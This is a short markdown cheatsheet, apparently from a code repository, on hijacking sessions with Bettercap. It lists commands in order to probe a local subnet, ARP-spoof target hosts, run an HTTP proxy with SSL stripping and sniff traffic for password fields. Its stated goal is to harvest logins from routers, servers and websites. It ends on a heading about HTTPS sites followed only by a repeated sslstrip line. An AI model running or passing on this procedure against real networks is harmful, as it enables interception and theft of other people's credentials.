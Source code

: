 # Session-Hijacking Cheatsheet


## Bettercap

#### Using Bettercap to collects all http logins used by routers, servers, and websites that do not have SSL enabled

```sh
bettercap -iface eth0
```
-iface: Specifies the interface to bind to.


```sh
net.probe on
```
This module will send different types of probe packets to each IP in the current subnet for the net.recon module to detect them.


```sh
net.recon on
```
The net.recon module displays the detected active IP addresses in the network. In real-time, this module will start sniffing network packets.


```sh
set http.proxy.sslstrip true
```
This module enables SSL stripping.


```sh
set arp.spoof.internal true
```
This module spoofs the local connections among computers of the internal network.


```sh
set arp.spoof.targets [Target IP]
```
This module spoofs the IP address of the target host.


```sh
http.proxy on
```
This module initiates http proxy.


```sh
arp.spoof on
```
This module initiates arp spoofing.


```sh
net.sniff on
```
This module is responsible for performing sniffing on the network.


```sh
set net.sniff.regexp '.*password=.+'
```
This module will only consider the packets sent with a payload matching the given regular expression (in this case, ‘.*password=.+’).


#### Using Bettercap to sniff network traffic from https-based websites


```sh
set http.proxy.sslstrip true
```
